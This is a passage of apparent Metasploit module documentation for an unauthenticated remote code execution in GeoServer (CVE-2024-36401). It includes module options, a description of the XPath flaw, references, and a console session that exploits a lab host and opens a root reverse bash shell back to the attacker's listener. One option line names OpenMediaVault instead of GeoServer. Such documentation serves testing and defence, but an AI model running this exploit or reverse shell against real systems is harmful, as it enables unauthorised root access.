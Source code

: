 ```msf
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                yes       The URI path of the OpenMediaVault web application
  URIPATH                     no        The URI to use for this exploit (default is random)
  VHOST                       no        HTTP server virtual host


  When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the
                                       local machine or 0.0.0.0 to listen on all addresses.
  SRVPORT  8080             yes       The local port to listen on.

Payload information:

Description:
  GeoServer is an open-source software server written in Java that provides
  the ability to view, edit, and share geospatial data.
  It is designed to be a flexible, efficient solution for distributing geospatial data
  from a variety of sources such as Geographic Information System (GIS) databases,
  web-based data, and personal datasets.
  In the GeoServer versions < 2.23.6, >= 2.24.0, < 2.24.4 and >= 2.25.0, < 2.25.1,
  multiple OGC request parameters allow Remote Code Execution (RCE) by unauthenticated users
  through specially crafted input against a default GeoServer installation due to unsafely
  evaluating property names as XPath expressions.
  An attacker can abuse this by sending a POST request with a malicious xpath expression
  to execute arbitrary commands as root on the system.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2024-36401
  https://github.com/geoserver/geoserver/security/advisories/GHSA-6jj6-gm7p-fcvv
  https://github.com/vulhub/vulhub/tree/master/geoserver/CVE-2024-36401
  https://attackerkb.com/topics/W6IDY2mmp9/cve-2024-36401


View the full module info with the info -d command.
```
###  GeoServer 2.23.5 on x64 Ubuntu 22.04 - cmd/unix/reverse_bash
```msf
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401)  > set rhosts 192.168.201.86
rhosts => 192.168.201.86
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401)  > set lhost 192.168.201.8
lhost => 192.168.201.8
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of GeoServer.
[+] The target appears to be vulnerable. Version 2.23.5
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 7 opened (192.168.201.8:4444 -> 192.168.201.86:54072) at 2024-07-11 16:09:30 +0000

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
```
